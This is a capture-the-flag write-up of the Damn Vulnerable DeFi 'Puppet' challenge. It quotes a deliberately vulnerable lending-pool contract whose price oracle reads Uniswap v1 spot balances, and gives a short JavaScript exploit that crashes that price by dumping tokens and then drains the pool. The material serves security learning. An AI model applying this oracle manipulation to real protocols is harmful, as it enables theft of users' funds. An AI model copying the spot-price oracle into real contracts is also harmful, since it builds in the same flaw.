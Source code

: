 #+AUTHOR: Francesco Cannarozzo
* Puppet
** Statement
   A pool offers DVTs for loan, obtainable by depositing twice the token's value in eth as collateral,
   supported by a Uniswap v1 exchange.

   starting with 25 eth and 1000 DVTs, we are tasked to steal all 100000 DVTs from the pool.
** Files
*** PuppetPool.sol
**** Code
     #+BEGIN_SRC solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "../DamnValuableToken.sol";

/**
 * @title PuppetPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract PuppetPool is ReentrancyGuard {

    using Address for address payable;

    mapping(address => uint256) public deposits;
    address public immutable uniswapPair;
    DamnValuableToken public immutable token;
    
    event Borrowed(address indexed account, uint256 depositRequired, uint256 borrowAmount);

    constructor (address tokenAddress, address uniswapPairAddress) {
        token = DamnValuableToken(tokenAddress);
        uniswapPair = uniswapPairAddress;
    }

    // Allows borrowing `borrowAmount` of tokens by first depositing two times their value in ETH
    function borrow(uint256 borrowAmount) public payable nonReentrant {
        uint256 depositRequired = calculateDepositRequired(borrowAmount);
        
        require(msg.value >= depositRequired, "Not depositing enough collateral");
        
        if (msg.value > depositRequired) {
            payable(msg.sender).sendValue(msg.value - depositRequired);
        }

        deposits[msg.sender] = deposits[msg.sender] + depositRequired;

        // Fails if the pool doesn't have enough tokens in liquidity
        require(token.transfer(msg.sender, borrowAmount), "Transfer failed");

        emit Borrowed(msg.sender, depositRequired, borrowAmount);
    }

    function calculateDepositRequired(uint256 amount) public view returns (uint256) {
        return amount * _computeOraclePrice() * 2 / 10 ** 18;
    }

    function _computeOraclePrice() private view returns (uint256) {
        // calculates the price of the token in wei according to Uniswap pair
        return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
    }

     /**
     ... functions to deposit, redeem, repay, calculate interest, and so on ...
     */

}

     #+END_SRC
**** Breakdown
***** State
      the contract maintains references to public immutables /uniswapPair/, *address* of the corresponding pair,
      and the usual *DamnValuableToken*.
      Since the contract needs to accept and keep track of user deposits,
      a *mapping* of addresses onto integers called /deposits/ is kept. 
***** borrow
      this function allows sender to borrow DVTs by depositing ether:
      required deposit is calculated, and if the requirement for *msg.value* is met,
      *msg.sender*'s /deposit/ entry is incremented, and tokens transferred.

***** calculateDepositRequired
      calculates deposit required for borrowing tokens as double their value in Ethers.

***** _computeOraclePrice
      Private function, called on by *calculateDepositRequired()* calculates token price as directly
      proportional to the ratio between eths and dvts in the pair's balance.

** Exploit
   We might just be able to manipulate the market!
   as we can see, as the pair's ETH balance falls to zero, so does the token price: 
   thus, we can exploit the fact that we have much a lot more DVTs than the exchange initially has,
   swap them for eth, and make the price fall to the ground: after that, we can just borrow as many tokens as we want.
*** Code
    #+BEGIN_SRC javascript
      it('Exploit', async function () {
        depositRequiredBefore = await this.lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE)
        await this.token.connect(attacker).approve(this.uniswapExchange.address, ATTACKER_INITIAL_TOKEN_BALANCE)
        await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(
            ATTACKER_INITIAL_TOKEN_BALANCE.sub(1),
            1,
            9999999999
            )
        depositRequiredAfter = await this.lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE)
        expect(depositRequiredAfter).to.be.lt(depositRequiredBefore).and.to.be.lt(ATTACKER_INITIAL_TOKEN_BALANCE)
        await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE, {value: depositRequiredAfter})
    });
    #+END_SRC
      
